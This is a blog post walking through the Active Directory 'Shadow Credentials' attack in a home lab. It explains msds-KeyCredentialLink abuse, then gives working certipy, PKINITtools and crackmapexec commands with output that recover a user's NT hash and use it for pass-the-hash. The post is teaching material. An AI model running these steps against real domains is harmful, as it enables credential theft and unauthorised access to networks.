```yaml
---
layout: post
title: Abusing the msds-KeyCredentialLink Propertie in Active Directory - Understanding Shadow Credentials
subtitle: Using Certipy To Exploit msds-KeyCredentialLink Remotley
tags: [AD]
---
```


# What is a Shadow Credential 
Within Active Directory, both user and computer objects possess an attribute named `msds-KeyCredentialLink`, which serves as a storage location for raw public keys. These public keys can be used in Kerberos to obtain a Ticket Granting Ticket (TGT). Adding a credential/public key to this attribute is known as a "Shadow Credential." A Shadow Credential can then be used in conjunction with a Kerberos extension called Service for User to Self (S4U2Self) to obtain the NT hash of that user. 

When using public key authentication a client can obtain a special Service Ticket that contains their NTLM hash when trying to access a resource that requires it. Inside that Service Ticket is the the Privilege Attribute Certificate (PAC) that contains an entity with the encrypted NTLM hash. We cannot decrypt this because it is encrypted using the key of the service that it is issued for. 

The S4U2Self mechanism allows a user to obtain a Service Ticket for themselves, giving us the ability to decrypt the PAC. S4U2Self Service Tickets are encrypted using the targets session key.

There are two requirements that must be present in order to perform this type of attack
- Active Directory Certificate Services installed on at least a 2016 Domain Controller
- A compromised account that has rights to the `msds-KeyCredentialLink` attribute to whatever user/computer you want to exploit

Below is a basic flow of the attack
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadowDiag.png)
# Demo
*For this demo I will do the exploitation from a remote kali machine rather than on a windows host.

In my home lab I set up a new account called `sauron` and gave `frodo` write and read permissions for the attribute `msds-KeyCredentialLink`
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/writeshadow.png)

ly4k wrote a great tool called [certipy](https://github.com/ly4k/Certipy) that takes advantage of public Active Directory Certificate Services (AD CS). It has a option called `shadow` that can; list, add, remove ,clear, show info, and auto pwn the `msDS-KeyCredentialLink` attribute. 

Using the `add` command lets me add a new raw public key to the `sauron` account
```
┌──(root㉿kali)-[~]
└─# certipy shadow add -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa'
[*] Adding Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Saved certificate and private key to 'sauron.pfx'
```

Looking at the property on suaron's account a new attribute is present 
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadow.png)

Next we can use `gettgtpkinit.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) to request a TGT using the `.pfx` file generated from `certipy`. It will give us a TGT and the AS-REP encryption key we will use de decrypt the PAC.
```
┌──(root㉿kali)-[~]
└─# python3 gettgtpkinit.py -cert-pfx sauron.pfx lotr.local/sauron out.ccache
2023-05-11 17:24:03,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-05-11 17:24:04,026 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-05-11 17:24:04,034 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-05-11 17:24:04,034 minikerberos INFO     9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
INFO:minikerberos:9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
2023-05-11 17:24:04,037 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Cache the ticket in our current session
```
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=out.ccache
```

Finally `getnthash.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py), will use the TGT to request a PAC using S4U2Self. It will also decrypt the PAC **giving us the NT hash**.
```
┌──(root㉿kali)-[~]
└─# python3 getnthash.py -key 9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421 lotr.local/sauron
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
0f7421a8a3d0b0adcafa6862fd766818
```

`certipy`, has an `auto` command that will add a new Key to the target, authenticate with the key to get the TGT and NT hash, and then clean up.
```
certipy shadow auto -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a'
[*] Adding Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Authenticating as 'sauron' with the certificate
[*] Using principal: sauron@lotr.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'sauron.ccache'
[*] Trying to retrieve NT hash for 'sauron'
[*] Restoring the old Key Credentials for 'sauron'
[*] Successfully restored the old Key Credentials for 'sauron'
[*] NT hash for 'sauron': 0f7421a8a3d0b0adcafa6862fd766818
```

Then a pass the hash attack can be performed 
```
┌──(root㉿kali)-[~]
└─# crackmapexec smb -u frodo -H 0f7421a8a3d0b0adcafa6862fd766818 -d lotr 10.10.1.47 -x 'dir'
SMB         10.10.1.47      445    WORKSTATION      [*] Windows 10 Pro 19044 x64 (name:WORKSTATION) (domain:lotr) (signing:False) (SMBv1:True)
SMB         10.10.1.47      445    WORKSTATION      [+] lotr\frodo:0f7421a8a3d0b0adcafa6862fd766818
```

These NT hashes can be cracked offline or used in a pass the hash attack. In the event that you have permissions to do this on a computer account you could take an additional step and use `impacket-ticketer` to gain a Service Ticket as HOST or CIFS as an administrator and authenticate to the machine.
